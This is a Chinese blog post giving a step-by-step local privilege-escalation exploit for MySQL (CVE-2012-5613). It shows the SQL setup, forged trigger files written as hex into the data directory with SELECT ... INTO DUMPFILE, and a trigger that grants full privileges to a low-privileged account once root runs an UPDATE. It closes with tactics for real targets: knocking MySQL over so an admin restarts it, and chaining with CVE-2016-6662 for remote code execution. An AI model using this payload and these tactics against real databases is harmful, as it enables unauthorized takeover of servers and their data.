

# cve-2012-5613 mysql 本地提权 - 小小 leo - 博客园

> 原文：[`www.cnblogs.com/xiaoxiaoleo/p/5886207.html`](https://www.cnblogs.com/xiaoxiaoleo/p/5886207.html)

cve-2012-5613  是一个通过 FILE 权限写 Trigger 的 TRG 存储文件（即伪造 Trigger）,由 root 触发而导致权限提升的漏洞。不知道为什么这个漏洞一直没修，可能 mysql 认为这是一个特性吧。

准备

测试环境：

Server version: 5.5.48-log Source distribution

在 test 数据库中创建一个触发器：

create table foo (a INT, b INT, ts TIMESTAMP);

create table bar (a INT, b INT);

INSERT INTO foo (a,b) VALUES(1,1);

INSERT INTO foo (a,b) VALUES(2,2);

INSERT INTO foo (a,b) VALUES(3,3);

DELIMITER ///

CREATE TRIGGER ins_sum AFTER UPDATE ON foo

    FOR EACH ROW

    BEGIN

        IF NEW.ts <> OLD.ts THEN 

            INSERT INTO bar (a, b) VALUES(NEW.a, NEW.b);

        END IF;

    END;

///

DELIMITER ;

创建触发器完成后，发现在 mysql 目录(/usr/local/mysql/var/test/)生成 foo.TRG 和 ins_sum.TRN 文件，所有者为 mysql

换一个更简单的 Trigger：

DROP TRIGGER IF EXISTS ins_sum;

DELIMITER ///

CREATE TRIGGER ins_sum AFTER UPDATE ON foo

    FOR EACH ROW

    BEGIN

            update user set sex =3 where id =1  ;

    END;

///

DELIMITER ;

此时 TRG 文件内容：

TYPE=TRIGGERS

\n    END'    update user set sex =3 where id =1  ; AFTER UPDATE ON foo

sql_modes=0

definers='root@%'

client_cs_names='utf8mb4'

connection_cl_names='utf8mb4_general_ci'

db_cl_names='utf8mb4_general_ci'

开始测试：

创建一个普通用户，只有 file 权限+test 的 select 权限

 CREATE USER 'sec_usr123'@'%'  IDENTIFIED BY 'sec_usr123';

GRANT FILE ON *.* TO 'sec_usr123'@'%' ;

GRANT SELECT ON `test`.* TO 'sec_usr123'@'%';

flush privileges

在 root 下，创建一个触发器,试图直接通过触发器触发将普通用户变为 super user 失败：

DROP TRIGGER IF EXISTS ins_sum;

DELIMITER ///

CREATE TRIGGER ins_sum AFTER UPDATE ON foo

    FOR EACH ROW

    BEGIN

grant all privileges on *.* to sec_usr@'%' with grant option;

    END;

///

DELIMITER ;

换一种写法（https://raw.githubusercontent.com/offensive-security/exploit-database/master/platforms/linux/local/23077.pl）：

 DROP TRIGGER IF EXISTS ins_sum;

DELIMITER ///

CREATE TRIGGER ins_sum AFTER UPDATE ON foo

    FOR EACH ROW

    BEGIN

        UPDATE  mysql.user  SET  Select_priv='Y',  Insert_priv='Y',  Update_priv='Y',  Delete_priv='Y',  Create_priv='Y',  Drop_priv='Y',  Reload_priv='Y',  Shutdown_priv='Y',  Process_priv='Y',  File_priv='Y',  Grant_priv='Y',  References_priv='Y',  Index_priv='Y',  Alter_priv='Y',  Show_db_priv='Y',  Super_priv='Y',  Create_tmp_table_priv='Y',  Lock_tables_priv='Y',  Execute_priv='Y',  Repl_slave_priv='Y',  Repl_client_priv='Y',  Create_view_priv='Y',  Show_view_priv='Y',  Create_routine_priv='Y',  Alter_routine_priv='Y',  Create_user_priv='Y',  ssl_type='Y',  ssl_cipher='Y',  x509_issuer='Y',  x509_subject='Y',max_questions='Y',  max_updates='Y',  max_connections='Y'  WHERE  User='sec_usr1234foo';

    END;

///

DELIMITER ;

成功。

尝试使用 fie 权限写入触发器目录：

SELECT   '1111'  INTO OUTFILE  '/usr/local/mysql/var/test/1.txt'

写入成功。

通过 outfile 写文件的方式（此方式文件已存在则报错）

普通用户 sec_usr 现在使用 file 权限创建 TRG 文件：

SELECT   'TYPE=TRIGGERS\ntriggers=\'CREATE DEFINER=\`root\`@\`%\` TRIGGER ins_sum AFTER UPDATE ON foo\n\\n    FOR EACH ROW\n\\n    BEGIN\n\\n\n\\n            update user set sex =3 where id =1  ;\n\\n\n\\n    END\'\nsql_modes=0\ndefiners=\'root@%\'\nclient_cs_names=\'utf8mb4\'\nconnection_cl_names=\'utf8mb4_general_ci\'\ndb_cl_names=\'utf8mb4_general_ci\'   '

INTO OUTFILE  '/usr/local/mysql/var/test/foo.TRG'   FIELDS ESCAPED BY ' ';

SELECT   'TYPE=TRIGGERNAME\ntrigger_table=foo' INTO OUTFILE  '/usr/local/mysql/var/test/ins_sum.TRN'  FIELDS ESCAPED BY ' ';

重启 mysql

sudo /etc/init.d/mysql restart

多次尝试发现有 backslash 带入，mysql 重启加载失败。

换 16 进制写入，注意要使用 dumpfile 而不是 outfile：

 SELECT 545950453D54524947474552530A74726967676572733D2743524541544520444546494E45523D60726F6F746040602560205452494747455220696E735F73756D20414654455220555044415445204F4E20666F6F0D5C6E20202020464F52204541434820524F570D5C6E20202020424547494E0D5C6E202020202020202055504441544520206D7973716C2E757365722020534554202053656C6563745F707269763D5C27595C272C2020496E736572745F707269763D5C27595C272C20205570646174655F707269763D5C27595C272C202044656C6574655F707269763D5C27595C272C20204372656174655F707269763D5C27595C272C202044726F705F707269763D5C27595C272C202052656C6F61645F707269763D5C27595C272C202053687574646F776E5F707269763D5C27595C272C202050726F636573735F707269763D5C27595C272C202046696C655F707269763D5C27595C272C20204772616E745F707269763D5C27595C272C20205265666572656E6365735F707269763D5C27595C272C2020496E6465785F707269763D5C27595C272C2020416C7465725F707269763D5C27595C272C202053686F775F64625F707269763D5C27595C272C202053757065725F707269763D5C27595C272C20204372656174655F746D705F7461626C655F707269763D5C27595C272C20204C6F636B5F7461626C65735F707269763D5C27595C272C2020457865637574655F707269763D5C27595C272C20205265706C5F736C6176655F707269763D5C27595C272C20205265706C5F636C69656E745F707269763D5C27595C272C20204372656174655F766965775F707269763D5C27595C272C202053686F775F766965775F707269763D5C27595C272C20204372656174655F726F7574696E655F707269763D5C27595C272C2020416C7465725F726F7574696E655F707269763D5C27595C272C20204372656174655F757365725F707269763D5C27595C272C202073736C5F747970653D5C27595C272C202073736C5F6369706865723D5C27595C272C2020783530395F6973737565723D5C27595C272C2020783530395F7375626A6563743D5C27595C272C6D61785F7175657374696F6E733D5C27595C272C20206D61785F757064617465733D5C27595C272C20206D61785F636F6E6E656374696F6E733D5C27595C27202057484552452020557365723D5C277365635F75737231323334666F6F5C273B200D5C6E20202020454E44270A73716C5F6D6F6465733D300A646566696E6572733D27726F6F744025270A636C69656E745F63735F6E616D65733D27757466386D6234270A636F6E6E656374696F6E5F636C5F6E616D65733D27757466386D62345F67656E6572616C5F6369270A64625F636C5F6E616D65733D27757466386D62345F67656E6572616C5F6369270A into dumpfile '/usr/local/mysql/var/test/foo.TRG' ;

 SELECT 0x545950453D545249474745524E414D450A747269676765725F7461626C653D666F6F0A   into dumpfile '/usr/local/mysql/var/test/ins_sum.TRN' ;

 

重启 mysql，root 用户执行 UPDATE 进行触发：

select * from mysql.user   where User = 'sec_usr1234foo';  

update foo set a=9 where b=1;

select * from mysql.user   where User = 'sec_usr1234foo';

 至此 sec_usr1234foo 获取了 super user 权限，可以执行`set` `global` `general_log`，结合上上篇文章 CVE-2016-6662（ http://www.cnblogs.com/xiaoxiaoleo/p/5873091.html），就达到了所谓的普通用户远程 RCE 的效果。或者直接像 http://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html 提到的那样，通过 super user 直接出发注入 my.cnf 的 Trigger，省去添加 super user 的步骤。

  总结一下 cve-2012-5613:

利用条件：

1\. 普通用户+file 权限+select 权限

2.管理员需要重启 mysql 一次，触发一次触发器（INSERT, UPDATE or DELETE.）

攻击方式：

最好有一个和远程环境相同的环境，预先生成 TRG 和 TRN 文件的 16 进制，然后通过 dumpfile 到目标的 mysql 目录里面。让管理员可以通过 mysql 拒绝服务，mysql 宕机管理自然会重启。如何让管理员触发，则随机应变吧。